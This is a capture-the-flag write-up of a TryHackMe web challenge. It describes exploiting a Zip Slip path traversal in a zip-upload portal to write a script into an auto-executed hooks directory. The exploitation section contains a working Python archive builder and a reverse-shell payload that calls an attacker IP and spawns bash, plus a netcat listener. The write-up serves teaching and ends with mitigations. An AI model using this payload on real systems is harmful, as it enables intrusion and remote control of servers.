




# Challenge 10: The Hollow Shell

## 1. Challenge Information

| Field | Value |
|---|---|
| Platform | TryHackMe |
| Event | Hacker Holidays 2026 |
| Category | Web |
| Difficulty | Medium |
| Vulnerability Type | Zip Slip (Path Traversal) → Arbitrary File Write → Remote Code Execution |

**Objective:**
Compromise the target machine (Byte Lotus Hotel - Shoreline Display Portal) by exploiting the "shell" upload mechanism to achieve remote code execution, then retrieve the flag.

---

## 2. Understanding the Challenge (Recon / Analysis)

### What did I notice?
The scenario centers on a portal called the **Shoreline Display Portal**, where staff upload zip archives (called "shells") containing a manifest file (`shell.json`) that lists the included assets (images, stylesheets, etc.). The portal also supports an extra feature called **automation hooks** — commands that a "theme worker" applies automatically shortly after a shell is uploaded.

### What services were open?
An Nmap scan was run against the target:

```
nmap -sC -sV <TARGET_IP>
```

Results:
- **22/tcp** → SSH
- **5000/tcp** → HTTP (Shoreline Display web application)



### What tools did I use?
- `nmap` for port and service enumeration.
- Browser for source page inspection and reviewing the upload interface.
- `zip` / Python `zipfile` to build custom zip archives.
- `curl` to verify exploitation results.
- `nc` (Netcat) to catch the reverse shell.



### Why did I move to the next step?
After logging into the application with the credentials `concierge / StayNoticed2024!`, I found that the upload mechanism accepts a zip file containing `shell.json` and assets restricted to certain extensions (`png jpg gif svg css json`). While inspecting how extracted files were served (`/shells/<id>/shell.json`), I noticed the application does not validate file paths inside the archive before extracting them — a strong indicator of a possible **Zip Slip** vulnerability.

---

## 3. Root Cause

The core vulnerability is **Zip Slip**, which occurs when an application extracts the contents of a zip archive without verifying that the paths inside it (e.g. `../../static/...`) stay confined to the intended extraction directory.

In this challenge:
- The application receives a zip archive and extracts every entry inside it without path sanitization.
- By including an entry with a path containing `../../`, it was possible to write a file anywhere outside the `shells/` directory.
- This turned from a simple "arbitrary file write" into **remote code execution**, because the application has a `hooks/` directory whose contents are automatically executed by a "theme worker". By writing a malicious script into `hooks/` via Zip Slip, the server executed it automatically.

---

## 4. How It Was Discovered

### How did I know the vulnerability existed?
From the asset display endpoint (`/shells/<id>/shell.json`), I noticed the application preserved the folder structure exactly as stored in the archive without enforcing any restrictions, and the server directory layout was as follows:

```
application-root/
├── static/
├── shells/
└── hooks/
```

### What tests did I run?
1. Uploaded a Test zip file (`Test.zip`) containing only a valid `shell.json`, to confirm normal upload behavior:
```json
{
  "name": "test",
  "assets": []
}
```

2. Tested the `hooks` field with different values to understand its behavior:
```json
"hooks": []
"hooks": ["test"]
"hooks": [{}]
"hooks": ["id", "whoami"]
```

3. Directly tested for Zip Slip using a Python script to build an archive containing a path that escapes the extraction directory:

```python
import json
import zipfile

manifest = {
    "name": "zipslip-test",
    "assets": []
}

with zipfile.ZipFile("zipslip-test.zip", "w") as archive:
    archive.writestr("shell.json", json.dumps(manifest))
    archive.writestr(
        "../../static/zipslip-test.css",
        "ZIP_SLIP_CONFIRMED\n"
    )
```

### What indicators appeared?
After uploading `zipslip-test.zip` and inspecting the archive contents:

```
unzip -l zipslip-test.zip

Archive:  zipslip-test.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       39  2026-08-05 19:32   shell.json
       19  2026-08-05 19:32   ../../static/zipslip-test.css
```

I then confirmed the file had been written outside the intended extraction directory:

```
curl http://10.130.181.205:5000/static/zipslip-test.css
ZIP_SLIP_CONFIRMED
```

This conclusively confirmed the Zip Slip vulnerability, proving the application allows writing to arbitrary paths on the server by controlling the entry paths inside the uploaded archive.



---

## 5. Exploitation

### Steps in sequence

**Step 1 - Log in to the portal**
Using the discovered credentials:
```
user: concierge
pass: StayNoticed2024!
```

**Step 2 - Confirm the vulnerability (as in the previous section)**
Uploaded `zipslip-test.zip` and confirmed the file was written outside the intended path.

**Step 3 - Build an archive containing a reverse shell**
A Python script was prepared to build an archive that writes a Python reverse-shell script into the `hooks/` directory via Zip Slip:

```python
import json
import zipfile

LHOST = "10.130.97.35"
LPORT = 4444

manifest = {
    "name": "shoreline-update",
    "assets": []
}

callback = f'''
import os
import pty
import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(({LHOST!r}, {LPORT}))

for descriptor in (0, 1, 2):
    os.dup2(sock.fileno(), descriptor)

pty.spawn("/bin/bash")
'''

with zipfile.ZipFile("reverse-shell.zip", "w") as archive:
    archive.writestr("shell.json", json.dumps(manifest))
    archive.writestr("../../hooks/callback.py", callback)
```

Running the script:
```
python3 build_shell.py
unzip -l reverse-shell.zip
```

**Step 4 - Start a Netcat listener on the attacker machine**
```
nc -lvnp 4444
```

**Step 5 - Upload the malicious archive through the portal**
After uploading `reverse-shell.zip`, the "theme worker" processes the new shell and automatically executes the contents of the `hooks/` directory shortly after upload, triggering `callback.py` on the server.

### Why each command succeeded
- **`archive.writestr("../../hooks/callback.py", ...)`**: Succeeded because the application never verified that the entry path stayed within the extraction directory (`shells/`), allowing it to escape and write directly into `hooks/`.
- **`theme worker`**: Automatically executes any script it finds inside `hooks/`, which triggered the reverse shell callback without any further manual interaction.
- **`pty.spawn("/bin/bash")`**: Grants a fully interactive shell over the open connection to the Netcat listener.



---

## 6. Result

- Successfully confirmed the Zip Slip vulnerability by writing a proof-of-concept file outside the extraction directory.
- Exploited the vulnerability to write into the `hooks/` directory, whose contents the server executes automatically.
- Obtained an interactive **shell** on the target server via a reverse shell connection on port 4444.
- Accessed the filesystem and retrieved the **flag**:

```
THM{*****}
```

Privilege escalation was not required in this challenge, as the objective was limited to achieving remote code execution and retrieving the flag.

---

## 7. Mitigation

- Verify that every path inside an archive stays confined to the intended extraction directory, and reject any entry containing `../` or absolute paths before extraction.
- Use safe extraction routines that normalize and validate each entry's path (path normalization + containment check) before writing to disk.
- Never automatically execute files based solely on their presence in a specific directory (remove or restrict the automation hooks feature, or run it in a sandboxed environment).
- Apply the principle of least privilege to the process responsible for extracting and processing uploaded files.
- Restrict and properly validate allowed file types/extensions (using content-type / magic bytes checks, not just file name or extension).
- Log and monitor any write operations that occur outside the expected directories.

---

## 8. Lessons Learned

- Learned how to practically identify a Zip Slip vulnerability by crafting a custom archive using Python's `zipfile` module.
- Understood how an "arbitrary file write" vulnerability can escalate into remote code execution when an application includes an automatic execution mechanism (such as automation hooks).
- Learned that validating file extensions alone is not enough to secure an upload mechanism — the paths of entries inside the archive itself must also be validated.
- Practiced a methodical documentation workflow: confirming the vulnerability first with a harmless proof-of-concept, then moving to full exploitation only after confirmation.

---

## 9. References

- [OWASP - Zip Slip Vulnerability](https://github.com/snyk/zip-slip-vulnerability)
- Official Python `zipfile` documentation: [docs.python.org/3/library/zipfile.html](https://docs.python.org/3/library/zipfile.html)
